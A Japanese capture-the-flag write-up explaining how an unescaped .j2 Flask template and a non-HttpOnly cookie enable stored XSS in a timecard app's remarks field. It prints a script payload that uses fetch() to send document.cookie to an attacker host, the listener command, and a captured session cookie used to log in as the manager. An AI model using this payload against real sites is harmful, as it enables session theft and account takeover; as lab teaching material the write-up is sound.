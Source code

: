 # writeup
問題文より、上司としてログインするとフラグが得られるとわかります。

## webサーバについて
最初に配布ファイルの`web/app.py`を見ます。

`create_initial_user()`があり、managerユーザとuserユーザがいます。この問題ではmanagerユーザとしてログインすることが目標となります。

`dashboard()`を見ると、`return render_template('manager_dashboard.html.j2', timecards=timecards, flag=FLAG)`と書かれています。`manager_dashboard.html.j2`という拡張子になっていることに着目します。

[Flaskのマニュアル](https://flask.palletsprojects.com/en/stable/templating/)によると、`autoescaping is enabled for all templates ending in .html, .htm, .xml, .xhtml, as well as .svg when using render_template().`と書かれていますが、どの拡張子にも当てはまっていません。このため、XSSの脆弱性が存在する可能性があります。timecards内にJavaScriptのコードを書くと、上司のブラウザで任意のコードを実行できる可能性があります。

timecardsは`submit_timecard()`で作成されています。これによると、timecardはフォームに入力された文字をそのまま入れているようです。ここで、`class TimeCard()`にて、型が定義されています。`remarks`は文字列（String）なので、自由に書けそうです。

`submit_timecard()`を実行するには`/submit_timecard`エンドポイントにアクセスします。このエンドポイントにアクセスするフォームは、`web/templates/employee_dashboard.html.j2`にあります。このファイルはemployeeの権限のアカウントで`/dashboard`にアクセスすると使用できます。これで、自作のJavaScriptを投稿することはできそうです。

また、`app.config['SESSION_COOKIE_HTTPONLY'] = False`と書かれているため、CookieをJavaScriptから読むことができます。

## victimサーバについて
配布ファイルの`victim/login_access.js`を見ると、`http://web/login`にアクセスし、managerのユーザ名とパスワードでログインしたうえで、`http://web/dashboard`にアクセスしているようです。
このことから、フォームの備考欄（`remarks`）にJavaScriptのコードを書くと、上司のブラウザで実行させることができそうです。


## XSSの利用

XSSでCookieを奪取するJavaScriptのコードを書きます。例えば以下のようなコードがあります。
```
<script>fetch("http://<Kali LinuxのIPアドレス>/".concat(encodeURIComponent(document.cookie)));</script>
```

ユーザ名：`user`、パスワード: `userpass`でログインし、上記のコードを備考欄に書いて申請します。

Kali Linuxのシェルにて以下のコマンドを実行します。

```
python3 -m http.server 80
```

1分ほど待つと、以下のような通信が届きます。

```
192.168.11.130 - - [19/Jun/2025 03:25:07] "GET /session%3D.eJwlzj0OwjAMQOG7eGawk_gnvUwVO7FgbemEuDuV2N7bvg_seazzCdv7uNYD9teEDZhb1ByyuJt3bx45EpnCjIthJS-cPYjVRGXWWTxJRtSpjUhceKbayOLBnk46UJth4v0LyboW68E4Rwms7W4RMSZjJtHocEOucx1_DcH3B6yOLmI.aFO7Tg.bpIvfeN9e25f-Etta3Ly_ibL8qg HTTP/1.1" 404 -
```

上記をURLデコードすると、`session=.eJwlzj0OwjAMQOG7eGawk_gnvUwVO7FgbemEuDuV2N7bvg_seazzCdv7uNYD9teEDZhb1ByyuJt3bx45EpnCjIthJS-cPYjVRGXWWTxJRtSpjUhceKbayOLBnk46UJth4v0LyboW68E4Rwms7W4RMSZjJtHocEOucx1_DcH3B6yOLmI.aFO7Tg.bpIvfeN9e25f-Etta3Ly_ibL8qg`が出てきます。

Webブラウザの開発者ツールにて、上記のCookieを書き込み、`http://<ターゲット1のIPアドレス>`にアクセスするとmanagerとしてログインした状態になります。このページにフラグが表示されています。
